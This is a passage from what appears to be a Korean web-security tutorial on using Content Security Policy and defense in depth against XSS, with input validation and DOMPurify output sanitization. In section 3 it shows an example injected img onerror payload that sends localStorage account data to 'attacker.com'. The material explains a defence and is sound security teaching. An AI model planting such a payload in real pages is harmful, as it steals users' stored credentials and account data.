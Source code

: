 ## 3. 실제 공격 시나리오에서 CSP의 역할

```html
<!-- 공격자가 삽입한 XSS -->
<img
  src="x"
  onerror="fetch('//attacker.com?c='+localStorage.getItem('accountInfo'))"
/>
```

### CSP가 있을 때 차단되는 것들

- `img-src 'self'` → 외부 이미지 로드 차단
- `connect-src 'self'` → attacker.com으로 fetch 차단
- `script-src 'self'` → onerror 인라인 이벤트 핸들러 차단

## 4. 올바른 방어 전략: Defense in Depth

단일 방어 메커니즘에 의존하지 않고 **다층 방어**가 필요합니다:

### 1단계: 입력 검증 (서버 측)

```javascript
// 주의: 기본적인 예시 - 실제로는 불완전함
function validateInput(content) {
  // HTML 태그 제거 또는 이스케이프
  return content.replace(/<script[^>]*>.*?<\/script>/gi, "")
  // ⚠️ 이 방법은 <ScRiPt>, <script/src=...> 같은 변형을 막지 못함
}

// OWASP 권장: 전문 라이브러리 사용
import validator from "validator"
import xss from "xss"

function secureValidateInput(content) {
  // HTML 인코딩
  const encoded = validator.escape(content)
  // 또는 XSS 필터링 라이브러리 사용
  return xss(content)
}
```

**추가 권장사항:**

- WAF (Web Application Firewall) 도입 고려
- OWASP AntiSamy, ESAPI 등 검증된 라이브러리 사용

### 2단계: 출력 시 Sanitization

```javascript
import DOMPurify from "dompurify"

export default {
  computed: {
    safeContent() {
      return DOMPurify.sanitize(this.userContent, {
        ALLOWED_TAGS: ["b", "i", "u", "p", "br"],
        ALLOWED_ATTR: [],
      })
    },
  },
}
```

